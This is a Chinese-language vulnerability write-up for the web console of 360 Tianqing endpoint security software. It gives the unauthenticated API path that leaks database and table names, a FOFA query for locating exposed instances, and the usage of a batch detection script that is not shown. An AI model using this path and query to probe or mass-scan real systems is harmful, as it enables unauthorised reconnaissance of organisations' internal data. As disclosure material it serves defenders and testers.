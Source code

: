 # 0x00 软件介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，现在天擎归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/api/dbstat/gettablessize
```
访问后会暴漏数据库名、表名，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
